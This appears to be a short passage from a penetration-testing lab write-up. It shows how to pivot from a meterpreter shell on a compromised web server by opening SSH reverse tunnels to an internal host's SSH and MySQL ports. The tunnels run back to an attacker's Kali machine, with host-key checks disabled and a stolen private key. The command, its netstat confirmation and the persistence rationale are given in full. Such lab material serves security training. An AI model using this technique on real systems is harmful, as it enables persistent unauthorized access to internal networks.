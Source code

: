 -    we need to run the SSH command in the meterpreter shell

```bash
ssh -f -N -R 1122:10.5.5.11:22 -R 13306:10.5.5.11:3306 -o "UserKnownHostsFile=/dev/nul
l" -o "StrictHostKeyChecking=no" -i /tmp/keys/id_rsa kali@10.11.0.4
Could not create directory '/var/www/.ssh'.
Warning: Permanently added '10.11.0.4' (ECDSA) to the list of known hosts
```

-    Now let’s verify that the ports are open on our Kali machine:

```bash
kali@kali:~$ sudo netstat -tulpn
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address Foreign Address State PID/Program name
tcp 0 0 0.0.0.0:111 0.0.0.0:* LISTEN 1/systemd
tcp 0 0 0.0.0.0:22 0.0.0.0:* LISTEN 645/sshd
tcp 0 0 127.0.0.1:13306 0.0.0.0:* LISTEN 91364/sshd: kali
tcp 0 0 127.0.0.1:1122 0.0.0.0:* LISTEN 91364/sshd: kali
tcp6 0 0 :::111 :::* LISTEN 1/systemd
tcp6 0 0 :::22 :::* LISTEN 645/sshd
tcp6 0 0 ::1:13306 :::* LISTEN 91364/sshd: kali
tcp6 0 0 ::1:1122 :::* LISTEN 91364/sshd: kali
... 
```

-    since the **ssh command was run in the background,** even if our meterpreter shell were to die,** we would have remote access to the database server through the remote tunnel.**
